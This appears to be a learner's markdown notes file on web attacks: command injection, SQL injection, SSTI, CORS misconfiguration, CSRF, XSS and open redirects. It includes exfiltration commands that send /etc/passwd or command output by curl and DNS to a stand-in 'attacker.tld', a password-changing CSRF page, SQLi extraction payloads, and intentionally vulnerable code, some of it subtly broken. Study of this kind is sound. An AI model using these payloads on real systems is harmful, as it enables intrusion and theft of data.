


# OWASP
first of all have a look at [payloads all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master) and save it for other uses.

> [!IMPORTANT]
> [Orange](https://blog.orange.tw/) has good article to read.


## Command Injection
### Basics
whenever we see a suspicious input, we fuzz it. we need to use command separators.
> [!NOTE]
> Recon means try to detect the injection. *it coms from recognize*
```console
; #cut the befoce cmd
&& #run this cmd if that command is tru
| #give result of last cmd to next
|| #is or
`code here` #it open a cmd executor
$(code here) #it opens a cmd exec
{code,here} #if we cant use space
cat$IFS/etc/passwd # if we cant use space ($IFS means space)
cat ${HOME:0:1}etc${HOME:0:1}passwd # {HOME:0:1} means /
```
Out of band means use web app for in out of boundry. *for example use to web send request to another space*
it can be DNS, HTTP or ...
we use this method when doesnt return the output of the injected command. for blind.
we request to our server.
```console
; wget attecker.com
```
<details>
<summary>Lets Read</summary>

- [we hacked apple for 3 months](samcurry.net/hacking-apple/#vuln4)
- [LocalTapiola: RCE using bash command](hackerone.com/reports/303061)
</details>

### Data Exfiltration
For Data Exfiltration (extracting data) u should use these two:
- HTTP Data Exfiltration
- DNS Data Exfiltration

#### HTTP
> [!TIP]
> search request catcher to get a simple server for testing out of bound.

for sending a command or file use these two:
```console
curl https://attacker.tld -d $(cmd) # for cmd result
curl https://attacker.tld --data-binary @/etc/passwd # for sending file
```
#### DNS
> [!TIP]
> look for dns logger to get dns requests (DNS). an example is [DNSbin](dnsbin.zhack.ca)

command is:
```console
ping -c 1 $(whoami).attacker.tld # for sending cmd result
uname -a | od -A n -t x1 | sed 's/ *//g' | while read exfil; do ping -c 1 $exfil.attacker.tld; done # for sending hexed file
```
### Reverse Shell
for reverse shell we force the target machine to connect back to attacking machine.

Procedure:
- attacker's machine listen on a port
- victim's machine connect to the port
- victim spawns a shell
- attacker will have the shell

> [!TIP]
> look at this [site](revshells.com) for get some payload.

> [!NOTE]
> commix is sth like sqlmap :)


## RCE
rce means u can put code in web app.
for inline import in python u can use this:
```python
__import__('PACKAGE_NAME').FUNCTINON('ARGS')
```

## SQL Injection
in sqli we wanna exploit the query.
this is a simple sqli
```sql
SELECT FROM USER WHERE username = ''; SELECT 1=1; --
```

### intraction
we have three kind of intraction between web app and sql.
- data returns directly to user
- data processed and the result shows to user
- nothing returns to user

#### Direct
look at [this example](https://site.com/news/54):

in this case 54 is id of a data in sql so the qury must be like one of this:
```sql
SELECT * FROM news WHERE news_id = $NEWSID;
SELECT * FROM news WHERE news_id = '$NEWSID';
SELECT * FROM news WHERE news_id = "$NEWSID";
```
so it shows all thing to us directly and we can exploit it by **UNION**.

#### Indirect
suppose we wanna buy sth from a shop and when we click on a product it query to sql and if it has it shows us exist else doesnt exist.
so in this case data is porocessed and then the result shown us.
query must be like this:
```sql
SELECT IF ((SELECT count FROM products WHERE product_id = $PRODUCT_ID) > 0, 1, 0) # 0 or 1
```
here doesnt show data just an effect of it.

*We use blind sqli in this case **(boolean based)***

#### NO result
for example for users and ips of a web app it doesnt show u any data. but will do sth.
```sql
INSERT INTO table_name VALUES (value1, value2, ...)
```
there is no view here but we have time effect.

*so we use blind sqli as a **time based***

### Explotation Flow
Based on user privilage we can do many things:
- pulling data from each databse that user has access
- read file
- write file
-  command excutaion

for extracting data u should know, ***data base name***, ***table name*** and ***column name***.


we can pull information with **information_schema**:
- `SELECT schema_name FROM information.schema.schemata` -> shows all database which the user has access to
- `SELECT table_name FROM information.schema.tables` -> shows all tables which the user has access to
- `SELECT column_name FROM information.schema.columns` -> shows all columns which the user has access to

u can use various fliters. for examle in this query it retunrns only column names of a specific database and table:
```SQL
SELECT group_concat(cloumn_name) FROM information.schema.columns WHERE table_schema='DATABASE_NAME' AND table_name='TABLE_NAME' 
```

### UNION
in MYSQL:
- when using `ORDER BY` to order datas by a column name or number. *(if it doesnt exist it will raise an error)*
- when using `UNION SELECT` the number of columns (and order of columns) must be same
- `UNION SELECT` cant use after `ORDER BY`.

a test that use `ORDER BY` vulnerablilty.
```SQL
Default request:
page/?id=54


Test 1:
page/?id=54 ORDER BY 1
page/?id=54' ORDER BY 1#
page/?id=54" ORDER BY 1#


Test 2:
page/?id=54 ORDER BY 1000
page/?id=54' ORDER BY 1000#
page/?id=54" ORDER BY 1000#
```

we can confirm we have sql injection when:
- Test 1 == Default
- Test 2 != Test 1

b/c it hard to be selected 1000 columns so it must raise error and two tests cant be same.

suppose u dont know the first `SELECT` so in this case u must try to find that how many columns are selected.
first look at this to get what i mean about first `SELECT`.
> `SELECT * FROM TABLE_NAME WHERE id=54` the part `SELECT *` is first `SELECT`.

so now u know what we talking about. so look at the tries for exploiting.
```SQL
page/?id=54 ORDER BY 1 # same as default request
page/?id=54 ORDER BY 2 # same as default request
page/?id=54 ORDER BY 3 # same as default request
page/?id=54 ORDER BY 4 # not same as default request
```
so we get that the first `SELECT` select 3 column. in the end we exploit like this via `UNION SELECT`.
```SQL
page/?id=54 UNION SELECT 1,2,3#
```

> [!TIP]
> if u rn't allowed to use qoute(s), u can use HEX code only and only for strings.


### Blind SQLi
- boolean based -> *there is a processed result of data*:
  - the attack released in `True` or `False` detection.
  ```SQL
    Default request:
    page/?id=54


    Test 1:
    page/?id=54 and 1=1
    page/?id=54' and '1'='1
    page/?id=54" and "1"="1


    Test 2:
    page/?id=54 and 1=2
    page/?id=54' and '1'='2
    page/?id=54" and "1"="2
  ```
  - we can confirm sqli when:
    - Test 1 == Default request
    - Test 2 != Test 1
- time bases bline -> *there is no data*:
    - the attack release by time sleeping of HTTP request:
    ```SQL
    page/?id=54 and sleep(10)
    page/?id=54' and sleep(10)#
    page/?id=54" and sleep(10)#
    ```

> [!WARNING]
> sometimes mostly when u seeing a search box query isnt like this `keyword = $INPUT` its like this `keyword like '%INPUT%'` b/c in search we dont wanna exact word. so in this case we need to change our injection to this: `test%' and 1=1#`

for exploiting data:
- sepcify two conditions, a `True` one and a `False` one.
- use sth like `IF` to extract data.
- u cant extract whole data so do it byte by byte
lets make an example:
```SQL
page/?id=54 and 1=1 # True one
page/?id=54 and 1=2 # Flase one
page/?id=54 and 1=IF(2>1,1,0) # True one
page/?id=54 and 1=IF(1>2,1,0) # Flase one
```
lets extract databse name length:
```SQL
page/?id=54 and 1=IF((SELECT LENGTH(DATABASE()))>1,1,2)-- - # True one
page/?id=54 and 1=IF((SELECT LENGTH(DATABASE()))>2,1,2)-- - # True one
page/?id=54 and 1=IF((SELECT LENGTH(DATABASE()))>3,1,2)-- - # True one
page/?id=54 and 1=IF((SELECT LENGTH(DATABASE()))>4,1,2)-- - # True one
page/?id=54 and 1=IF((SELECT LENGTH(DATABASE()))>5,1,2)-- - # True one
page/?id=54 and 1=IF((SELECT LENGTH(DATABASE()))>6,1,2)-- - # False one
```
so database name length is 6.

### SQLmap
it use for detecting and exploiting sqli.

[here](https://github.com/sqlmapproject/sqlmap) is github repository of it.

## SSTI (Server-Side Template Injection)
u can inject malicious code in web app template.

in ssti:
- dynamic content pass to template.
- so user can inject code
- the flow is like this: detect -> identify template engine -> exploit
- detection payload is:
  ```code
  {{7*7}}
  ${7*7}
  <%= 7*7%>
  ${{7*7}}
  #{7*7}
  ${{<%[%'"}}%\
  ```

  ### Tplmap
  is sth like sqlmap :)
  
  [here](https://github.com/epinna/tplmap?tab=readme-ov-file) is github repository of it.


## CORS (Cross Origin Resource Sharing)
if sop prevents us we have 3 way to share data:
- postMessage -> sending and receiving messages between two different origin
- JSONP -> using `<script>` to transfer js objects
- CORS -> modifying sop by some special response headers

example for response headers:
- `Acess-Control-Allow-Origin: <Origin> | *`
- `Acess-Control-Allow-Credentials: true`

> [!IMPORTANT]
> the browser always put the **correct origin** in the request by **Origin** HTTP header, it can't be spoofed or modified by js.

### Checker Function
a good time that *CORS* will appear is when a company wanna be scaled.
so they write a fucntion to verify origin or deny it.
the function may be vulnurable.
so how it be vulnarable? look the following code(its node js):
```js
app.get('/user/info', (req, res) => {
  if (req.header.origin.indexOf("mysite.com") < 0>) {
    // scurity failed
    // no CORS here
    // exit
  } else {
    add_cors_headers(req.headers.origin); // returns: ACAO: req.headers.origin; ACAC=True
  }

  var user_obj = get_user_data(req.session.user_id);
  res.render('result');
});
```
of course we cant send `https://attacker.com/` as a Origin header but we can send `https://mysite.com.attacker.com` as Origin.

### The Vulnarable CORSs
if a site (`company.com`) works with cookies and has an endpoint which returns sensitive information, the following cases r vulnarable:
> [!NOTE]
> in all cases the cookie's **SameSite** must be **none**.

- case 1:
  - `Access-Control-Allow-Origin: https://attacker.com`
  - `Access-Control-Allow-Credentials: True`
- case 2: 
  - `Access-Control-Allow-Origin: https://company.com.attacker.com`
  - `Access-Control-Allow-Credentials: True`
- case 3: 
  - `Access-Control-Allow-Origin: null`
  - `Access-Control-Allow-Credentials: True`
- case 4 - *vulnarable if any of subdomains r vulnarable to xss: 
  - `Access-Control-Allow-Origin: https://anysub.company.com`
  - `Access-Control-Allow-Credentials: True`

when u see `Access-Control-Allow-Origin: https://attacker.com` and `Access-Control-Allow-Credentials: True` dont rush to report the vulnarablity. just report when u exploit it completely.


<details>
<summary>Let's Read</summary>

> see [this](https://www.youtube.com/watch?v=AUQSYobXbZI) for better view *(part of CORS misconfiguration)*.
</details>


## XSS and CSRF
- we force client do sth that he dont want, when client authenticated
- the action should be stat-changing. such as change profile, change password.
- it should work with `SameSite` cookies
- it should be simple HTTP request and frequnctable

the flow is like this:


for example u make a payload that send a request to change password in a specific site look، this is payload for it:
```js
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta http-equiv="X-UA-Compatible" content="IE=edge">
<meta name="viewport" content="width=device-width, initial-scale=1.0"> <title>GOODCMS CSRF exploit!</title>
<script>
  function runCSRF () {
  // It changes the password by sending the request to the server // But you cannot view the resulting response because of SOP
    let request = new XMLHttpRequest();
    request.onreadystatechange = function () {
        if (request.readyState == 4 && request.status == 200) {
            console.log(`[*] Password changed to 'user'`);
        }
      }  
    request.open("POST", "http://good cms. lab: 32225/change_pass");
    request.setRequestHeader("Content-Type", "application x-www-form-urlencoded");
    request.withCredentials = true;
    request.send("password=user&password_repeat=hacked");
    window.onload = function () {
    runCSRF ();
  };
</script>
</head>
<body>
</body>
</html>
```
### CSRF Protection
there r lots of protection to protect **CSRF**.
- using **CSRF token** for preventing forgery.*(most use)*
- checking `Referer` but function to check must be **safe**.
- using a costume header or any thing that makes HTTP request **complex**.

lets review anti csrf token mechanism:
- user sends HTTP req to change password form. *GET request*
- in the response, server returns an anti CSRF token **bound** to **the user's session**.
- user enters a new password and submit the form. and send a **POST request** to server and send *CSRF token* too.
- based on the session csrf token will be checked in the server.



### XSS
XSS is a vulnarabilty that u can inject malicious JavaScript code. there r two types of XSS:
- Normal XSS -> occurs when HTML parse by browser
- DOM XSS -> occurs when js excuted as a result of modifying DOM 
each type can be **reflected** or **Stored**. in the reflected mode no data is saved in the server, so exploit should be delivered to the user by a side channal. in the stored mode the payload is save to server by visiting vulnarable page automutically.

> [!TIP]
> there is also an XSS named **Blind XSS** blind b/c we cannot see result of our payload. we inject payload and hope to vulnarbility.

there is many XSS vectors some popular ones:
```html
<script>alert(origing)</script>

<svg onload=alert(origin)>
```

## Open redirect
open redirect is:
- web app redirect user based on untrusted input
- can be leveraged achived by xss
- can be leveraged to acct takeover in some authentication flow
- can be leveraged to bypass ssrf domain whitelist to achieve full-blown ssrf
- it redirect vitim from a site to a phishing
- it can occur header based or html/js based

lets see a header based:
```python
from flask import Flask, request, redirect
app = Flask(__name__)

@app.route("/")
def page():
  next = request.value.get('next')
  if next:
    return redirect(next)
  else:
    return 'hi :)'

if __name__ == '__main__':
  app.run(host="0.0.0.0", port=80)
```

lets see a js based:
```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <meta name="veiwport" content="width=device-width, initial-scale=1">
    <title>redirector</title>
    <script type="text/javascript">
      if(windows.location.hash) {
        var hash = windows.location.hash.substring(1); // puts hash in variable and remove # char
        windows.location = hash; // hash found
      }
    </script>
  </head>
</html>
```

### bypassing protection
for protecting redirect developers put a checker function:
```php
<?php
function check_hmac($url, $hmac) {
  return ($hmac == md5($url));
}

if (isset($_GET['url']) && isset($_GET['h'])) {
  if (check_hmac($_GET['url'], $_GET['h'])) header('Location: ' . $_GET['url']);
  else echo "Invalid HMAC";
}
?>
<pre>
<a href="?url=https://google.com&h=999adflskejf">Google.com</a>
</pre>
```
they use hmac to protect. but it's still vulnarable, init?

what about this one?
```html

<!DOCTYPE html>
<html>
<head>
  <title>URL Parameter Input Validation</title>
</head>
<body>
  <script>
  // Function to get query parameter by name
  function getQueryParam(name) {
    var urlParams = new URLSearchParams (window.location.search); 
    return urlParams.get(name);
  }

  // Get the input parameter from the URL
  var userInput = getQueryParam("url");

  // Define the regular expression pattern
  var regexPattern = /^((https?:)?\/\/([^/]+\.)?site\.(net|cn|app))?\/$/;

  if (userInput && userInput.match(regexPattern)) {
    // Redirect the user to the new location based on the user input 
    window.location.href = userInput;
  } else {
    // If the input doesn't match the pattern or is missing, display an error message 
    alert("Invalid input parameter or format");
  }
  </script>
</body>
</html>
```
in here we use **regex** to exploit. for example if u put `https://google.com?a=.site.net/` the regex is bypassed and we redirect to `google.com`.